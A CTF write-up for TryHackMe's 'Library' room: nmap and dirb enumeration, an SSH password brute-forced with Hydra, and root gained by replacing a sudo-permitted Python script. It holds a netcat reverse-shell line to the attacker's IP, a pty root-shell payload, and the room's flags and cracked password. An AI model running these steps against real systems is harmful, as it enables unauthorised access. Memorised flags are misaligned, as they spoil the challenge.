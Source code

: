```yaml
---
title: "Library CTF - TryHackMe"
author: Ludovic COULON
date: 2020-06-11
hero: ./images/hero.jpeg
excerpt: "Writeup for the Library CTF room on TryHackMe"
---
```


[TryHackMe | Library CTF](https://tryhackme.com/room/bsidesgtlibrary)

Read user.txt and root.txt

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.98.89
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/X/Zd2/Rc7PrxR+K9bGX9i7Imk3JlU274UsMqM6X03THehc6XUvg0URMryl9IldYLjQvD0fadIg1jB8rCxqzRiJi35nw7ICUXnpZryDS/guLb94Sb9IrLWBTNNdUWV7bTb4gMaGHdyQAmKY62FgL2aKUFMn8SpxJu0WiVIQgcKkv15s17rNqVD39kG8x/bfdftcjn/YtEP09Sy4z1FqXF9FT1xWKaVr3Pd5rCAU4rpOzVpS+qTj77NWaXNDlcg3aCRaILD+4lquq8kVAA+VcXR9IwXOTKJRzRCMfYwd3M6QC45LlRa17xvhI++vBtCcGwxuD9JZsXu0Cd/5fdisrl
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI8Oi4FyiWylek0a1n1TD1/TBOi2uXVPfqoSo1C56D1rJlv4g2g6SDJjW29bhodoVO6W8VdWNQGiyJ5QW2XirHI=
|   256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOPQQrT4KT/PF+8i33LGgs0c83MQL1m863niSGsBDfCN

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/NWlX0nd.png" alt="blog_image" />
</div>

Let's see if there is some hidden directory 😔

```bash
➜  ~ dirb http://10.10.98.89/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Jun  9 16:57:31 2020
URL_BASE: http://10.10.98.89/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.98.89/ ----
==> DIRECTORY: http://10.10.98.89/images/
+ http://10.10.98.89/index.html (CODE:200|SIZE:5439)
+ http://10.10.98.89/robots.txt (CODE:200|SIZE:33)
+ http://10.10.98.89/server-status (CODE:403|SIZE:299)
```

<div className="Image__Medium">
  <img src="https://imgur.com/R4JWXDR.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/oY8Ps8x.png" alt="blog_image" />
</div>

"Posted by meliodas" maybe a username ? let's keep it..

There is nothing on the website, this is a simple landing page with HTML nothing to attack there, but there is something interresting on the "robots.txt" the "User-agent: Rockyou".

Let's try to crack the ssh password with Hydra 🥰

```bash
# Meliodas was the name that we found on the index.html and rockyou is a list of common password
➜  TryHackMe hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.98.89
```

<div className="Image__Medium">
  <img src="https://imgur.com/ZMBdybW.png" alt="blog_image" />
</div>

```bash
[22][ssh] host: 10.10.98.89   login: meliodas   password: iloveyou1
```

### #1 user.txt

<div className="Image__Medium">
  <img src="https://imgur.com/i4x8ElV.png" alt="blog_image" />
</div>

```bash
meliodas@ubuntu:~$ cat user.txt
6d488cbb3f111d135722c33cb635f4ec
```

### #2 root.txt

```bash
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

```bash
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Ok now, we know that we can execute a python script with the root privileges let's try to have a root shell and run it with sudo 🤓

```bash
meliodas@ubuntu:~$ echo 'nc -e /bin/sh 10.9.2.228 4444' > bak.py
-bash: bak.py: Permission denied
```

Well.. That doesn't work let's try something else..

On the sudo -l command we can see the path of the file "/home/meliodas/bak.py"

Let's delete it and recreate our own one 🤑

```bash
meliodas@ubuntu:~$ rm -rf /home/meliodas/bak.py
```

```bash
meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt
$ cat root.txt
e8c8c6c256c35515d1d344ee0488c617
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
